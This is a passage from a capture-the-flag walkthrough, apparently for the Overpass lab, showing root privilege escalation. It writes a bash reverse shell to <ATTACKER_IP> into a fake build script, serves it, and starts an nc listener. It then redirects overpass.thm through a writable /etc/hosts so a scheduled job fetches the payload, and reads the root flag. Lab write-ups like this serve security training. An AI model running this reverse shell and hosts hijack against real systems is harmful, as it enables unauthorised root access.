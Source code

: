 ```bash
mkdir -p downloads/src/
echo 'bash -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1' > downloads/src/buildscript.sh
python -m SimpleHTTPServer 80
nc -lvnp 4444
```

4. Since we have write access to `/etc/hosts` as james, we can redirect `overpass.thm` to our attacking machine

```bash
nano /etc/hosts
cat /etc/hosts
```

<img width="716" height="178" alt="SCREEN07" src="https://github.com/user-attachments/assets/f32122bd-f28d-4894-ab71-de7a66ec2094" />

5. Once you receive the reverse shell connection, verify root access and retrieve the final flag

```bash
cat /root/root.txt
```
